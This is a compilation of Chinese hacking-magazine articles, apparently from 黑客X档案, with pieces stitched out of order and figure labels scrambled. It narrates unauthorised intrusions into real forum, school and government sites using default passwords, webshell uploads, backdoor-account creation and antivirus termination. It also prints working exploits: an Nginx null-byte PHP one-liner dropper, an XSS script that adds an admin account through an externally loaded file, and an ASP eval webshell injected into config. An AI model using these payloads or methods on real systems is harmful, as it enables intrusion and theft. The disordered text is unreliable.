来到 http://www.xxxxxx.cn/bbs/，如图4。

看这个网站的样子就知道是 dvbbs 的论坛了，但是至于 dvbbs 的版本还不能确定。直接在网站登录的地方尝试用账户名 admin 密码 admin888（默认）登录试试，人品爆发，登录成功，继续登录网站后台管理。尝试账户名 admin 密码 admin888 登录失败。后来尝试 admin+admin 登录成功，如图5。（小技巧：像这种文章一篇都没有的论坛或者网站一般来说管理不严，基本是默认密码）既然来到了后台，那么现在的问题就是怎么通过这个后台来拿到 webshell 了。通过管理首页的信息我们了解到，论坛采用的是 SQL 数据库 + dvbbs7.0。这个就是本次入侵的亮点了。网站有个数据处理，下面有备份数据库，我就来看了看，如图6，但是功能不大，似乎只是提供一个说明的样子。


苦守后台 30 分钟无果，求助于百度，终于有所发现。

这个 dvbbs 的 SQL 版本有漏洞，具体是在 admin 下的 admin_data.asp 文件，直接贴出代码：

```asp
case "RestoreData" '恢复数据
admin_flag=",32,"
dim backpath
if not Dvbbs.master or instr(","&session("Flag")&",",admin_flag)=0 then
    Errmsg=ErrMsg "<BR><li>本页面为管理员专用，请<a href=admin_index.asp target=_top>登录</a>后进入。<br><li>您没有管理本页面的权限。"
    dvbbs_error()
else
    if request("act")="Restore" then
        Dbpath=request.form("Dbpath")
        backpath=request.form("backpath")
        if dbpath="" then
            response.write "请输入您要恢复成的数据库全名"
        else
            Dbpath=server.mappath(Dbpath)
        end if
        backpath=server.mappath(backpath)

        Set Fso=server.createobject("scripting.filesystemobject")
        if fso.fileexists(dbpath) then
            fso.copyfile Dbpath,Backpath
            response.write "成功恢复数据！"
        else
            response.write "备份目录下并无您的备份文件！"
        end if
    else
        call RestoreData()
    end if
end if
```

后台没有用到这些代码，可以看出我们完全可以用像 ACCESS 的方法来利用，只是要从本地提交参数，因为 Dbpath、backpath 那两个变量是用 request.form 取值。照样没有检查文件类型，这个文件的很多代码在 SQL 版里都是多余，因此产生安全隐患。至于利用方法，网上也贴出了利用工具，本地 htm 备份。具体利用代码如下：

```html
<form action="http://www.xxxxxx.cn/bbs/admin_data.asp?action=RestoreData&act=Restore" method="post">
```

## 一个人的战争

```html
<p>已上传文件的位置：<input name="Dbpath" type="text" size="80"></p>
<p>要复制到的位置：<input name="backpath" type="text" size="80"></p>
<p><input type="submit" value="提交"></p>
</form>
```

加密的密码，登录后台，如图10。这个后台是可以上传的，直接上传一个改了格式的一句话，利用备份功能拿下 shell，无废话。既然拿下了 shell，后来又发现 SQL 连接用户是 sa，那么不提权也太对不起管理员了。直接 `net user yinfu$ yinfu /add & net localgroup administrators yinfu$ /add` 建立了账户，发现是内网。上传了 lcx，执行时居然回显拒绝访问，tasklist 查看了安装有 360 杀毒。这个简单，执行命令 `Taskkill /f /im 360rp.exe` 跟 `360sd.exe` 全部干掉，执行了一下后仍然还是拒绝访问，这个无语了。徘徊了好久突然想起来可能是当前网站目录不支持执行权限，于是上传到了 `c:\recycler\lcx.exe`，这才执行成功，进入内网远程，如图11。本次检测圆满成功！


但是到这里问题又来了：他这个漏洞需要利用到前台发帖上传然后备份，但是这个 BBS 不能上传（这个真无语了，居然上传包含文件被删除了）。于是我想到了利用主站来上传，论坛来备份。想到就做，具体过程一气呵成。现在的问题就是说先要拿下主站的后台账号密码，既然不能注入了，我们就需要利用论坛的备份来为我们服务。用啊D扫描不到后台（麻烦真多），用 intellitamper 爬虫扫了一会儿网站，终于让我扫到后台了，如图7。（sys_admin_j9z4 这个名字鬼也想不到）直接利用备份 sys_admin_j9z4 下的 `admin_login.asp` 文件来查看他的代码，如图8。注意到 `<!--#include file="../Connections/conn_conn.asp"-->` 这一句包含语句，那么继续备份 `Connections/conn_conn.asp` 这个文件，如图9。既然是 mdb 数据库那就不客气了，直接下载，破解 md5。


这次的渗透应该说思路还是很不错的，给了我们一些经验：对于一些主站比较困难时，就要注意分站的利用，并且分站利用中不能忽略主站的功能，统筹兼顾才是王道。综合利用起来，任何一个小小的漏洞都是致命的！

## 歪打正着，浅搜到政府网站

刘超凡

因公司业务的需要，我要上一些钢格板企业的网站去查找一些钢格板的知识，于是就搜索到了一个叫大连富莱特的钢格板公司，如图1。

出于习惯，我用啊D检测了下该网站是否有漏洞，没有检测到。然后，又检测了遍管理员入口，如图2，发现有两个可以登录的后台地址。

于是就一个个地查看了一下，先看了以 Default 结尾的，如图3，尝试了许多的弱口令，还有万能密码，都无果。然后，再打开了 index 结尾的后台，看了看，如图4，发现多出了左边那一部分的菜单，但是因为没有登录，菜单也都是一些摆设。于是点击左上角的网站首页，打算再回网站看看有没有什么可以利用的东西。

可点击完网站首页后，所转向的网站竟然是大连市甘井子区政法委员会的政府门户网站，让我感觉到很纳闷，如图5。然后又用啊D检测了下是否有漏洞，发现还是没有。于是，又检测了下管理员入口，如图6，扫描到了管理入口，然后点击进入，如图7。继续尝试弱口令，使用 admin，没想到，哈哈，进去了。进去后，查看了下网站管理员，发现一共有两个管理帐号，如图8，当然，网站别的一些菜单功能也是都可以使用。

因为是政府的门户网站，所以我就再没有继续往下实验，我可不想去公安局喝茶，嘿嘿，就到此为止了。但身为政府网站，安全性却做得这么差，真的实在是太不应该了。


## 一个人的战争

在上期杂志中，我写了如何入侵学校办公系统并如何找到试卷并拿下整个办公服务器。作为一名黑X的忠实读者，我们要本着永不止步、寻求突破的思想，不能满足，keep hacking！

于是，我本着这个思想，来到我们计算机系的网站上逛了逛，是 .NET 写的，如图1。我看了下域名，是 `jsjx.**.edu.cn`，上次的办公系统是 `oa.**.edu.cn`。有点激动，如果在一台服务器上就好了。我查了一下 IP，让我失望了，如图2、图3。

```text
and Settings\Administrator>ping oa.*.*.edu.cn

it.edu.cn [58.214.*.213] with 32 bytes of data:
Request timed out.
Request timed out.

图2
```

```text
and Settings\Administrator>ping jsjx.*.edu.cn

*direct.local [202.102.*.205] with 32 bytes of data:
202.102.110.205: bytes=32 time=3ms TTL=250
202.102.110.205: bytes=32 time=3ms TTL=250
202.102.110.205: bytes=32 time=3ms TTL=250

图3
```


这也不奇怪，因为我们计算机系是在分校区，电脑太多不好办，而且我们系有技术优势，不像其它系都有学院统一负责网站制作维护。再回到我们系网站，随便打开一个链接，放到 NBSI 中检测，没有漏洞，意料之中。然后我在网站中仔细地找了找，进了机构构成，看到了搜索，好东西，随便填了一个如图4。

在检测中，竟然检测出了 SA，哈哈！如图5。怎么网页标题变成了无锡药监信息网？不管它。果断看看能不能执行命令，受伤了，不能执行，晕，我试了各种方法都不行，难道这样的一个 SA 就白费了？我估计因为我们系的服务器用的是教育网，比较慢（不是一般的卡），估计执行超时了，网速慢也有这好处！

既然这儿不行，就去找找看有什么分站。果然我看到了，如图6，叫做“*能力支持分站*”，是关于就业、研发的。进去看看，如图7，一看就是一个整站系统，放到啊D中检测后台。哦，原来是 FREE POWER 3.6，但不是 PLUS 版本，用几个默认的管理员账号试了下不行。记得 FREE POWER 有一个上传漏洞，于是先注册一个用户。注册好了，登录，什么，竟然用户名错误，如图8。我又注册了一个，还是一样，估计管理员做了手脚，我晕了。在网上搜了下，找到了一个漏洞利用工具，试了下还是不行，我晕。看着网站，我很茫然，难道就这样不了了之？

我再仔细看了一遍，终于发现它的分站了，如图9。看到这几个链接了么，我一开始以为是这个站的分栏目了，其实不是，他每个链接对应一个分站，这样机会就大一点了！第一个就是这个站；第二个，进去看一下，第二个跟第一个站用一个系统；第三个，是个论坛，有得搞！如图10，用啊D检测了一下，没检测到后台，估计管理员和注册用户登录页面一样，毕竟是个小论坛。我试了一下常见的管理员默认账号和密码，还是进不去，哎，怎么这么衰！没办法，只好看下一个站。点击“我想拜师学艺”，进去后，发现是一个博客，用啊D查了下后台，一看，原来是 OBLOG！如图11。


这次希望大了！OBLOG 可是漏洞之王啊，我于是顺便用管理员默认密码试了下，竟然进去了，如图12。那这下简单了，将上传目录改为 `1.asp`，如图13。然后注册一个用户，上传一个插入一句话木马的图片（不知道的百度，网上很多教程的），然后点击相册管理，点击上传的图片，然后右击属性查看图片的地址，如图14。


然后拿出 eval 客户端来连接，如图15。连接，哈哈，成功了，如图16。传个大马，如图17，再传个 aspx 的大马，如图18。找到 `web.config`，得到 SA 账号密码，如图19。扫描一下端口，开了3389，如图20。然后利用 SA 账号执行数据库命令，加了一个用户 http，进去了，如图21。到这里，入侵就结束了，好累啊；但也很高兴。一个网站就被 OBLOG 给毁了。

记得上文提到搜索时网页标题变成了无锡药监信息网，我直接百度访问之，发现网站风格一模一样。汗！如图22，继续搜索，然后检测，发现还是 SA，哈哈，如图23！能执行命令，列目录如图24、25。剩下的就不用说了，你懂的。由于是国家机关，就不搞了。


### Nginx 空字节可执行代码漏洞采写与体验

txcbg

前一段时间著名的 Web 服务器软件 Nginx 爆出了一个严重的空字节执行漏洞，危害级别为高危。漏洞介绍说 Nginx 在遇到 `%00` 空字节时与后端 FastCGI 处理不一致，导致可以在图片中嵌入 PHP 代码，然后通过访问 `xxx.jpg%00.php` 来执行其中的代码。影响版本为：`0.5.*`、`0.6.*`、`0.7 <= 0.7.65`、`0.8 <= 0.8.37`。今天小菜我就和大家来体验这个漏洞。

先来简单介绍下 Nginx。Nginx（"engine x"）是一个高性能的 HTTP 和反向代理服务器，也是一个 IMAP/POP3/SMTP 代理服务器。Nginx 是由 Igor Sysoev 为俄罗斯访问量第二的 Rambler.ru 站点开发的，第一个公开版本 0.1.0 发布于 2004 年 10 月 4 日。其将源代码以类 BSD 许可证的形式发布，因它的稳定性、丰富的功能集、示例配置文件和低系统资源的消耗而闻名。2011 年 6 月 1 日，nginx 1.0.4 发布。利用 nginx 做 Web 服务器的网站一般都是大站。

考虑到利用 Nginx 做 Web 服务器的网站一般都是大站，拿网上的网站测试这个漏洞非常不方便，我决定在虚拟机里搭建 Nginx+PHP 的漏洞测试环境。

#### 一、搭建漏洞测试环境

由于漏洞影响版本为：`0.5.*`、`0.6.*`、`0.7 <= 0.7.65`、`0.8 <= 0.8.37`，虚拟机里的系统为 Windows 2003，我选择的 Nginx 是 `nginx-0.8.17 for Windows` 版本，下载地址为：http://nginx.org/download/nginx-0.8.17.zip，PHP 用的是 `php-5.3.8-Win32-VC9-x86`，下载地址为：http://windows.php.net/downloads/releases/php-5.3.8-Win32-VC9-x86.zip。

把 `php-5.3.8-Win32-VC9-x86.zip` 解压到 `C:\PHP` 目录下，然后把 `C:\PHP\php.ini-development` 重命名为 `C:\PHP\php.ini`。用记事本打开 `php.ini`，搜索 `cgi.fix_pathinfo=1`，把前面的分号去掉，保存更改，如图1。

把 `nginx-0.8.17.zip` 解压到 `C:\nginx\` 目录下。下面该来配置 nginx 了。nginx 的配置文件是 nginx 安装目录下 conf 目录下的 `nginx.conf`，我虚拟机中 `nginx.conf` 的位置为 `C:\nginx\conf\nginx.conf`。用记事本打开后可以看到如图2的内容。


图2


图1

要配置 Nginx+PHP 的漏洞测试环境需要修改的内容段如下：

```nginx
server {
    listen       80;
    server_name  localhost;

    #charset koi8-r;

    #access_log  logs/host.access.log  main;

    location / {
        root   html;
        index  index.html index.htm;
    }

    #error_page  404              /404.html;

    # redirect server error pages to the static page /50x.html
}
```

```nginx
error_page 500 502 503 504 /50x.html;
location = /50x.html {
    root html;
}

# proxy the PHP scripts to Apache listening on 127.0.0.1:80
#location ~ \.php$ {
#    proxy_pass http://127.0.0.1;
#}

# pass the PHP scripts to FastCGI server listening on 127.0.0.1:9000
#location ~ \.php$ {
#    root html;
#    fastcgi_pass 127.0.0.1:9000;
#    fastcgi_index index.php;
#    fastcgi_param SCRIPT_FILENAME /scripts$fastcgi_script_name;
#    include fastcgi_params;
#}

# deny access to .htaccess files
#location ~ /\.ht {
#    deny all;
#}
```

内容行首带井号说明这一行被注释掉了，不起作用。要想某行内容起作用必须去掉行首的 `#` 号。上面内容中的 `server_name` 对应的是网站的域名或 IP 地址，我在虚拟机里本机测试，所以保持默认的 `localhost` 就不改了。

```nginx
server {
    listen 80;
    server_name localhost;
    #charset koi8-r;
    #access_log logs/host.access.log main;

    location / {
        root html;
    }
}
```

```nginx
index index.html index.htm;
```

上面中 `root` 后面跟的是网站的绝对路径，默认的是 html。我要存放网站程序的位置是 nginx 安装目录下的 html 文件夹下，完整路径为 `C:\nginx\html`，所以把 `root html;` 这一行内容修改为 `root C:/nginx/html;`。

`index` 后面跟的是默认首页，因为要支持 php，所以添加 `index.php`，多个文件名中间用空格隔开。修改后的这一行内容为：

**index index.php index.html index.htm;**

要支持 php 程序，需要对 `# pass the PHP scripts to FastCGI server listening on 127.0.0.1:9000` 这一行下面的代码进行设置。先去掉各行首的 `#` 号。

```nginx
location ~ \.php$ {
    root html;
    fastcgi_pass 127.0.0.1:9000;
    fastcgi_index index.php;
    fastcgi_param SCRIPT_FILENAME /scripts$fastcgi_script_name;
    include fastcgi_params;
}
```

`root` 对应的是存放 php 程序的根目录，这里我设置为和网站程序根目录一样，也设置为 `C:/nginx/html`，`fastcgi_param SCRIPT_FILENAME` 设置为 `$document_root$fastcgi_script_name`，其中 `$document_root` 指的是网站绝对路径 `C:/nginx/html`。

到这里，对 `C:\nginx\conf\nginx.conf` 的修改就完成了。经过修改后的内容段如下：

```nginx
server {
    listen 80;
    server_name localhost;
    #charset koi8-r;
    #access_log logs/host.access.log main;

    location / {
        root C:/nginx/html;
    }
}
```

#### 二、测试漏洞

```nginx
index index.php index.html index.htm;

error_page 404 /404.html;

# redirect server error pages to the static page /50x.html
error_page 500 502 503 504 /50x.html;
location = /50x.html {
    root html;
}

# pass the PHP scripts to FastCGI server listening on 127.0.0.1:9000
location ~ \.php$ {
    root c:/nginx/html;
    fastcgi_pass 127.0.0.1:9000;
    fastcgi_index index.php;
    fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
    include fastcgi_params;
}

# deny access to .htaccess files
# location ~ /\.ht {
#   deny all;
# }
```

Win+R 调出运行输入框，输入 cmd 回车打开命令提示符窗口，切换到 PHP 的安装目录 C:\PHP\ 目录下，输入命令 `php-cgi.exe -b 127.0.0.1:9000 -q`，回车，让 PHP 以 FastCGI 形式运行，如图3。运行 php-cgi.exe 的窗口要一直开着，关闭后就不能运行 php 程序了。


图3

另外打开一个命令提示符窗口，切换到 C:\nginx\ 目录下，然后输入 `nginx.exe` 后回车，nginx 也运行了，如图4。


图4

至此，Nginx+PHP 的环境就搭建完成了。用浏览器打开 http://127.0.0.1/，看到“Welcome to nginx!”的欢迎页面就说明 nginx 运行正常，如图5。再来看 php 程序在 nginx 下是否运行正常，把文件名为 2008.php 的 phpspy_2008 放到网站根目录 C:\nginx\html\ 下，用浏览器访问 http://127.0.0.1/2008.php，PhpSpy 运行正常，如图6。说明 nginx 已经以 FastCGI 方式支持 PHP 了。


图5


图6

漏洞测试环境已经搭建完成，下面该来测试漏洞了。漏洞介绍说 Nginx 在遇到 `%00` 空字节时与后端 FastCGI 处理不一致，导致可以在图片中嵌入 PHP 代码，然后通过访问 `xxx.jpg%00.php` 来执行其中的代码。我把 phpspy_2008 的文件改名为 nginx.jpg，然后通过浏览器访问 http://127.0.0.1/nginx.jpg%00.php，看 nginx.jpg 里的 php 代码会不会被执行。把 2008.php 改名为 nginx.jpg 后用 IE 7 打开 http://127.0.0.1/nginx.jpg%00.php，却出来了“Windows 无法找到‘http://127.0.0.1/nginx.jpg%00.php’。请检查拼写是否正确，然后重试。”的错误提示，如图7，难道漏洞不可用？


图7


图10

后来在土司看帖子，发现一个朋友也遇到了和我同样的问题，他换了个火狐浏览器问题就解决了。我虚拟机里正好也安装了火狐浏览器，马上用火狐打开 http://127.0.0.1/nginx.jpg%00.php，看到了 PhpSpy 的登录页面，如图8，说明 nginx.jpg 中的 php 代码被执行了，漏洞确实存在。


图11


图8


图12

对于利用存在漏洞版本的 nginx 作为 Web 服务器的网站，只要可以上传图片就可以拿到 shell 了，危害特别大。由于很多论坛几乎都可以上传图片，利用这个漏洞可以秒杀存在漏洞的论坛。

如果网站对上传的图片进行了是否是图片文件的检查，可以找一个正常的小图片，用记事本打开，然后在文件末尾加上要执行的 php 代码。为了减小文件的大小，我比较喜欢用生成 php 一句话木马的代码，比如：

```php
<?php fputs(fopen("x.php","w"),"<?php eval($_POST[x]);?>")?>
```

代码的作用是在当前目录下生成文件 x.php，x.php 里面的代码为 `<?php eval($_POST[x]);?>`。把代码 `<?php fputs(fopen("x.php","w"),"<?php eval($_POST[x]);?>")?>` 添加到图片文件的末尾，就生成了漏洞利用文件，如图9。


图9

把插入了 php 代码的漏洞利用文件 x.jpg 放到网站根目录 C:\nginx\html\ 下，用火狐浏览器访问 http://127.0.0.1/x.jpg%00.php，显示如图10。来到网站根目录 C:\nginx\html\ 下，发现 x.php 已经生成了，里面的内容也是 `<?php eval($_POST[x]);?>`，如图11。用 lanker 一句话 PHP 后门客户端 3.0 连接 http://127.0.0.1/x.php，成功获得 shell，如图12。

## 三、漏洞的修复

由于漏洞影响的版本为：0.5.*、0.6.*、0.7 <= 0.7.65、0.8 <= 0.8.37，而目前 Nginx 的最新版本为 nginx-1.1.2，发布日期为 2011 年 09 月 05 日。可以看到存在漏洞的都是老版本的 Nginx，把 Nginx 升级到最新版本就可以修复这个漏洞了。

声明：我验证 Nginx 空字节可执行代码漏洞只是出于兴趣爱好，我只是在本机验证了这个漏洞，没有拿网络上的任何主机做测试。如果你也想验证这个漏洞，也建议在本机搭建漏洞测试环境进行验证。如果有人利用本文介绍的方法拿网络上的主机进行验证，造成的任何后果与本文作者无关。

文中用到的软件 nginx-0.8.17 和 php-5.3.8-Win32-VC9-x86 都给出了下载地址，考虑到文件比较大，就不打包给大家了，想本机搭建漏洞验证环境的可以自己去下载。

## 简单分析 XYCMS 律师事务建站系统 v1.0 的安全性

txcb

前几天闲来无事，到中国站长站下载了一套叫 XYCMS 律师事务所建站系统 v1.0 的网站程序来学着分析下程序的漏洞。虽然我是个菜鸟，还真发现了几个安全问题。

#### 一、数据库下载漏洞

我把 XYCMS 律师事务所建站系统 v1.0 在我虚拟机里的 Windows 2003 系统中用 IIS 把网站运行了起来，访问地址为 http://127.0.0.1/，如图1。


图1

网站的数据库文件默认的是 xydata 目录下的 xycms.mdb，如果管理员没有修改默认的数据库文件名字和存放数据库文件的目录，就可以下载数据库了。比如我虚拟机里的演示网站都是默认的，访问 http://127.0.0.1/xydata/xycms.mdb 就可以下载网站的数据库文件了，如图2。打开下载回来的数据库文件，却没发现存放管理员用户名和密码的表，如图3。


图2


图3

通过查看登录验证文件 loginpass.asp 的源代码发现如下代码：

```sql
select * from admin_user where admin='"&admin&"' and password='"&password&"'
```

通过代码可以知道存在 admin_user 这个表，但为什么在图3中却看不到 admin_user 这个表呢？为了确认存在 admin_user 这个表，我执行了如下 SQL 查询语句：

```sql
select * from admin_user;
```

执行后的结果如图4，说明确实存在 admin_user 这个表。（在 Microsoft Office Access 2003 中执行 SQL 语句的步骤为：在“对象”中选择“查询”，新建 -> 设计视图 -> 关闭 -> 在灰白处右键然后选择“SQL 视图”。）


图4

为什么明明存在 admin_user 这个表在图3中却看不到呢？到网上查了下，说是在 Microsoft Office Access 中可以隐藏表，难道是隐藏了？在 Microsoft Office Access 2003 中打开“工具”菜单下的“选项”，然后来到“视图”选项卡，“显示”对象中勾选“隐藏对象”，点“确定”按钮后 admin_user 表出来了，如图5，看来 admin_user 表是被程序的作者隐藏了。打开表 admin_user 后就可以得到管理员的用户名和密码了，密码是经过 MD5 算法加密过的 32 位密文，只要密码不是很复杂，在线破解网站一般都能破解出来。

待会儿再说。


图5

这个数据库下载漏洞很低级，稍有安全意识的网站管理员会给数据库文件改名或修改存放数据库文件的目录来防范这个漏洞。

### 二、编辑器默认管理员用户名密码漏洞

通过查看 XYCMS 律师事务所建站系统 v1.0 的源代码，发现 XYCMS 律师事务所建站系统 v1.0 用的是 eWebEditor 编辑器。在网站的 `system\xyeWebEditor\` 目录下，但不存在 admin、admin 的常见默认用户名和密码，也不存在数据库文件 ewebeditor.mdb。XYCMS 律师事务所建站系统 v1.0 用的 eWebEditor 编辑器的后台登录地址是 http://127.0.0.1/system/xyeWebEditor/admin/login.asp，如图6，与常见的红色的 eWebEditor 编辑器后台登录页面明显不同。尝试了几个弱口令都不对；看了下登录文件 login.asp 的源代码，发现包含了 `system\xyeWebEditor\asp\` 目录下的文件 config.asp，在 config.asp 文件中找到了默认的管理员用户名 XY2010 和密码 XY2010，如图7。


图6

由于 XYCMS 律师事务所建站系统 v1.0 所用的 eWebEditor 编辑器所在目录比较特殊，不容易被找到，再加上用户名密码也不是 admin、admin；admin、admin888 等弱口令，又不能通过下载数据库文件获得管理员用户名和密码，不是下载了 XYCMS 律师事务所建站系统 v1.0 源代码并进行过分析的人几乎不可能知道这个漏洞，因此这个漏洞被利用的可能性小，被网站管理员注意到的可能性也小。如果管理员没有修改默认的管理员用户名和密码，也没有删除后台页面，用默认管理员用户名 XY2010 和密码 XY2010 就可以登录 eWebEditor 的后台了。进了后台拿 shell 就是老方法了：复制一个样式，允许上传文件类型添加 asa 格式，通过预览样式直接上传 asa 格式的 shell。得到上传文件 `/uploadfile/201109/20110911134442421.asa`，用 lake2 的 eval 最小马发送端连接 http://127.0.0.1/uploadfile/201109/20110911134442421.asa，得到 shell，如图8。


图7


图8

这个漏洞比较隐蔽，管理员一般不容易发现，因此被管理员修复的可能性也比较小。如果要修补的话可以修改 eWebEditor 编辑器的默认管理员密码，再彻底点，可以删除 eWebEditor 编辑器的后台管理文件，反正网站管理员一般也用不到 eWebEditor 编辑器的后台功能。

如果说上面两个漏洞可能被管理员修复的话，下面我发现的这个漏洞一般管理员还真修复不了，除非他会 ASP 语言——

#### 三、XSS 漏洞

XYCMS 律师事务所建站系统 v1.0 有个在线咨询的功能，可以提交咨询，在这里我发现存在 XSS 漏洞。在线咨询页面为 http://127.0.0.1/online.asp。在线咨询页面共有 6 个地方可以输入内容，分别是：咨询标题、姓名、联系 QQ、联系 E_mail、联系电话和咨询内容。为了验证哪些地方可以插入 XSS 代码，我来发一个咨询，6 个可输入内容的地方都输入代码 `<font color="#FF0000">test</font>`，代码的作用是显示红色的 test，提交后显示如图9。

在咨询标题和咨询内容的地方都显示了红色的 test，说明在这两个地方都可以插入 XSS 代码。再发一个咨询，在咨询内容里输入经典 XSS 代码 `<script>alert("test")</script>`，查看这条咨询的时候弹窗出来了，如图10。在网站首页的右下角会显示最新的在线咨询，如图11：……地址，把 width 和 height 都设置为 0，就可以挂马了。


图9


图12

提交一条在线咨询就可以在网站首页挂马，这个漏洞的危害是巨大的。其实，还有比挂马更大的危害。假设前两个漏洞都被网站管理员修补了，也不存在管理员用户的弱口令，你还能进入后台获得 shell 吗？我的回答是能，途径就是利用这个 XSS 漏洞。


图10

我发现有人提交咨询内容后，要回复咨询内容网站管理员必须进后台。我们可以发一条咨询，在咨询中插入我们精心构造的 XSS 代码，在管理员查看并回复你的咨询时执行你插入的 XSS 代码，实现添加管理员用户等功能。

XYCMS 律师事务所建站系统 v1.0 的默认后台目录是 system，登录后台后点“管理咨询信息”，然后点插入了弹窗代码的咨询，弹出了弹窗，说明 XSS 代码在后台也可用，如图13。


图11


图13

在首页会显示在线咨询的标题，在咨询标题处输入 `test<script>alert("test")</script>`，会怎样呢？新发一条在线咨询，咨询标题写 `test<script>alert("test")</script>`，其他地方随便写，但不写 XSS 代码，访问网站首页，出来了弹窗，如图12。利用这个 XSS 漏洞可以在网站首页挂马！新发一条在线咨询，咨询标题写 `test<iframe src=http://www.baidu.com width=500 height=300></iframe>`，提交后网站首页显示了内嵌的 baidu 首页。如果把 src 后面的地址换成网马地址，把 width 和 height 都设置为 0，就可以挂马了。

在后台点“管理员管理”来到了管理员管理的地方，在这里可以添加新的管理员用户。我添加一个用户名为 test、密码为 123456 的管理员，对添加管理员的过程用 WinSock Expert 进行抓包，抓到的数据包如下：

```http
POST /system/admin_manage.asp?act=add HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*
Referer: http://127.0.0.1/system/admin_manage.asp
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
```


我们想办法让管理员查看咨询的时候，通过执行我们插入的 XSS 代码再发送上面的数据包，从而让管理员帮我们添加一个新的管理员用户。需要用到一个 js 文件，根据上面抓到的数据包修改后的 js 文件内容为：

```javascript
var request = false;
if (window.XMLHttpRequest) {
  request = new XMLHttpRequest();
  if (request.overrideMimeType) {
    request.overrideMimeType('text/xml');
  }
} else if (window.ActiveXObject) {
  var versions = ['Microsoft.XMLHTTP', 'MSXML2.XMLHTTP', 'Msxml2.XMLHTTP.7.0', 'Msxml2.XMLHTTP.6.0', 'Msxml2.XMLHTTP.5.0', 'Msxml2.XMLHTTP.4.0', 'MSXML2.XMLHTTP.3.0', 'MSXML2.XMLHTTP'];
  for (var i = 0; i < versions.length; i++) {
    try {
      request = new ActiveXObject(versions[i]);
    } catch (e) {}
  }
}

xmlhttp = request;

getshell();
function getshell() {
  var postStr = "admin=test&password=123456&password3=123456&button=...&act=add";
  xmlhttp.open('POST', '/system/admin_manage.asp', true);
  xmlhttp.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
  xmlhttp.setRequestHeader('Content-length', postStr.length);
  xmlhttp.setRequestHeader('Connection', 'close');
  xmlhttp.send(postStr);
}
```

其中提交的内容 `admin=test&password=123456&password3=123456&button=...&act=add` 就是抓到的数据包最后内容，加上提交地址 `/system/admin_manage.asp?act=add` 后面的 `act=add`；`xmlhttp.open` 中的 `/system/admin_manage.asp` 是添加管理员用户的文件。

删除刚添加的管理员用户 test。

把上面 js 文件内容保存为 1.js，把 1.js 放到一个能被访问到的网站空间中。我把它放到了我虚拟机中网站根目录下，URL 地址为 http://127.0.0.1/1.js。

下面来提交一条像样点的咨询：咨询标题写法律咨询，姓名写田志军，联系 QQ 写无，联系 E_mail 写 tianzhijun@126.com，联系电话写 1398632966，咨询内容写“尊敬的律师你好，我想打一个官司，具体情况为……（此处省略二百字）你们能不能帮我打赢官司？望回复，谢谢。`<script language="javascript" src="http://127.0.0.1/1.js"></script>`”。

提交咨询后在后台点“管理员管理”，发现只有一个管理员用户 admin，如图14。


图14


图15

点“管理咨询信息”，点击我们刚提交的名为法律咨询的咨询，看到的内容如图15，好像没什么异常，就是一条正常的咨询信息。但再点“管理员管理”来到管理员管理的……

## 一个人的战争

地方，发现已经添加了一个名为 test 的超级管理员用户，如图16。


图16

提交更改后用 Take2 的 eval 小马发送端连接 http://127.0.0.1/inc/config.asp，成功获得 shell，如图18。


图17

利用 XSS 漏洞让管理员在后台帮我们新添加了一个管理员用户，虽然我们不知道网站管理员的用户名和密码，但却可以利用新添加的管理员用户进入后台。其实，利用这个 XSS 漏洞还可以做很多其它的事，比如如果网站管理员更改了后台的目录导致你找不到后台登录地址，利用这个 XSS 漏洞就可以得到后台的目录，具体实现方法限于文章的篇幅我就不介绍了，感兴趣的请自己查询相关信息。

### 四、后台拿 shell 方法

不管你用漏洞一还是漏洞三进入了后台，下面该考虑在后台怎样获得 shell 了。XYCMS 律师事务所建站系统 v1.0 后台没有数据库备份的地方，也不存在上传漏洞，数据库是 .mdb 格式的，数据库插马也不用考虑了。常见后台拿 shell 的方法都不能用。继续在后台转悠，点“系统设置”来到了网站系统设置的地方，随便修改了一点信息，发现 inc 目录下的 config.asp 文件也有了相应更改，如图17。

看来把网站的基本配置信息保存到了 config.asp 文件中，考虑通过修改网站系统设置插入 ASP 一句话木马到 config.asp 文件中。直接在 QQ1 处写上 ASP 一句话木马服务端代码，提交更改后直接出来了错误提示，网站让我搞出错了，罪过啊。看来存在闭合代码问题，经过多次测试，发现在 QQ1 处插入如下代码不会出错：

```asp
34728264" %><script language=VBScript runat=server>eval request("x")</script><% const hack_errfile="123"
```


图18

由于我不会 ASP，不能进行代码级漏洞分析了。不过估计 XYCMS 律师事务所建站系统 v1.0 还存在别的漏洞，有兴趣的朋友可以分析下。

我找到的三个漏洞都是比较简单也很常见的漏洞。为了方便大家在本机测试这些漏洞，我把存在漏洞的 XYCMS 律师事务所建站系统 v1.0 的源代码还有利用到的文件 1.js 打包给大家了。

> （文中涉及的源代码本期光盘已收录）

### 锲而不舍，终有小成——记一次不成熟的尝试入侵检测

牟晓东

### 题记：

每一期的《黑客X档案》上都会有几篇关于网站检测入侵的文章，比如《对某高校的一次渗透测试》、《看小菜入侵某大型网络教育机构》等。或许是见的多了，不少的“叉子”对于此类三两千字的入侵手记式文章会产生审美疲劳，甚至随手就“闯”过去了。殊不知，像这种看似流水账的入侵手记，其实远不像看上去那么简单——短短的几段文字背后往往是作者很多天、上百次的尝试，最终将千斤之力化为四两技巧。我是小菜鸟一个，近几年在《X》的“浸淫”之下自觉功力见长，也进行了若干个网站的友情入侵检测艰辛过程，深深体会到“纸上得来终觉浅，绝知此事要躬行”的道理。其实，很多的入侵方法和技巧并非像各位大牛前辈轻描淡写所说的那样容易，“你懂的”真够人消化很长时间，自己不亲自试一下是绝对无法体味其中的奥妙的。今天想与大家共享一个并不成熟的尝试入侵检测过程，菜鸟围观，老鸟飞过哈！

### 1. 用 WWWScan 扫描初步踩点，一丝曙光

